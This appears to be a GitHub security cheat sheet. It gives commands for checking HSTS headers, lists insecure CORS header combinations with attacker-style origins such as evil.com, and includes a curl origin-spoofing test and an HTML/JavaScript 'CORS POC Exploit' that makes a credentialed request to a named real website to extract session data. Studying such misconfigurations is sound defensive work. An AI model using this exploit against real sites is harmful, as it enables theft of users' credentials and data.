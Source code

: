 
## HSTS
- HSTS is designed to ensure that web connections are made securely over HTTPS
```bash
curl -s -D- web url | grep -i Strict
```
```bash
hsecscan url 
```


## CORS
- Poorly Implemented, Best Case For Attack:
  <p>Access-Control-Allow-Origin: https://attacker.com</p>
  <p>Access-Control-Allow-Credentials:true</p>

- Poorly Implemented, Exploitable:
  <p>Access-Control-Allow-Origin: null</p>
  <p>Access-Control-Allow-Credentials:true</p>

- Poorly Implemented, Not Exploitable:
  <p>Access-Control-Allow-Origin: *</p>
  <p>Access-Control-Allow-Credentials:true</p>

<b>Insecure CORS through Request Header</b>
- Capture the request
- Spider the host
- Search <embed?> in url and send that url to Repeater.
- Add Origin: http://evil.com
<img src="https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/40b1e9d5-08cd-4dfd-b4f9-2f09b3916b6a" width="600" background-size="cover"/>
<img src="https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/c4b59631-7c26-45e2-8fa2-d141c2a9cf7e" width="600" background-size="cover"/>
<img src="https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/49264abd-f100-4369-b97a-ea8861f0f293" width="600" background-size="cover"/>



- How to check Insecure CORS
  ```
  curl https://squareops.com -H "Origin:http://hackersera.com" -I
  ```
<img src="https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/b38505f3-4793-4b14-8efa-a1b6d5d1dde8" width="600" background-size="cover"/>

```
<!DOCTYPE html>
<html>
<body>
<center>
<h2>CORS POC Exploit</h2>
<h3>Extract SID</h3>
<div id="demo">
<button type="button" onclick="cors()">Exploit</button>
</div>
<script>
function cors() {
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
if (this.readyState == 4 && this.status == 200) {
document.getElementById("demo").innerHTML = alert(this.responseText);
}
};
xhttp.open("GET","https://squareops.com/wp-json/oembed/1.0/embed?url=https%3A%2F%2Fsquareops.com", true);
xhttp.withCredentials = true;
xhttp.send();
}
</script>
```